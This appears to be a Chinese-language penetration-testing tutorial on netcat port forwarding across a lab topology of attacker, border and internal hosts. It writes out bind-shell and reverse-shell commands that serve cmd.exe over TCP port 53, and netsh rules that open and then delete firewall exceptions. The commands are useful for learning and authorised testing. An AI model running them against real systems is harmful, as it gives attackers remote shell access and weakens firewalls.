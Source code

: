 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接
```
Windows2008命令：↓

添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53

-l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe

结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```
```
Win7专业版命令：↓

  -n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc1.png)
![Win7专业版   连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc2.png)

2. 反向连接
```
Win7专业版命令：↓

  添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```
```
Windows2008命令：↓

  添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53

  -n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe

  结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc3.png)
![Windows2008 连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc4.png)
